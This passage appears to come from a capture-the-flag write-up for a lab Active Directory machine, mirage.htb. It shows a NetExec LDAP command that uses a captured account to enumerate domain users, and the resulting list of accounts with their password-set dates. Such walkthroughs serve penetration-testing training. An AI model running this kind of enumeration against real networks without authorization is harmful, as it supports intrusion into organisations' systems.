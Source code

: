 ![LDAP-Successful](assets/img/LDAP-Successful.png)

### 👥 Enumerate domain users

```bash
nxc ldap 10.10.11.78 -u david.jjackson -p 'REDACTED' -k --users
```

**Result:**

```bash
LDAP        10.10.11.78     389    DC01             [*] None (name:DC01) (domain:mirage.htb)
LDAP        10.10.11.78     389    DC01             [+] mirage.htb\david.jjackson:REDACTED 
LDAP        10.10.11.78     389    DC01             [*] Enumerated 10 domain users: mirage.htb
LDAP        10.10.11.78     389    DC01             -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.10.11.78     389    DC01             Administrator                 2025-06-23 17:18:18 0        Built-in account for administering the computer/domain      
LDAP        10.10.11.78     389    DC01             Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        10.10.11.78     389    DC01             krbtgt                        2025-05-01 03:42:23 0        Key Distribution Center Service Account                     
LDAP        10.10.11.78     389    DC01             Dev_Account_A                 2025-05-27 10:05:12 0                                                                    
LDAP        10.10.11.78     389    DC01             Dev_Account_B                 2025-05-02 04:28:11 1                                                                    
LDAP        10.10.11.78     389    DC01             david.jjackson                2025-05-02 04:29:50 0                                                                    
LDAP        10.10.11.78     389    DC01             javier.mmarshall              2025-07-26 01:30:13 0        Contoso Contractors                                         
LDAP        10.10.11.78     389    DC01             mark.bbond                    2025-06-23 17:18:18 0                                                                    
LDAP        10.10.11.78     389    DC01             nathan.aadam                  2025-06-23 17:18:18 0                                                                    
LDAP        10.10.11.78     389    DC01             svc_mirage                    2025-05-22 16:37:45 0        Old service account migrated by contractors 
```

---